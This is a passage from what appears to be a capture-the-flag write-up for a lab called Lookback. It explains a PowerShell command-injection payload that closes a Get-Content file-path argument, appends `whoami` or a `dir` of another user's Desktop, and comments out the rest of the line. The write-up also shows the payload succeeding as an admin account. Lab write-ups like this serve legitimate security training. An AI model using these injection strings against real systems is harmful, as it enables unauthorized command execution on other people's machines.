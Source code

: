 - `')`: to close the bracket of `Get-Content('C:/<INPUT_PATH>`
- `;`: semi-colon is used to concatenate the current command with another one
- `whoami`: command that we want to execute
- `#`: set the following command as comment which would not be executed and would not return errors

The return value is placed at the last line: `thm\admin` → The injection was successful

Next, keep enumerating the directories to looking for the ******************user flag******************

![Untitled](Lookback%20images/Untitled%209.png)

```bash
Windows\WindowsUpdate.log'); dir ..\..\..\Users\dev\Desktop #
```

![Untitled](Lookback%20images/Untitled%2010.png)
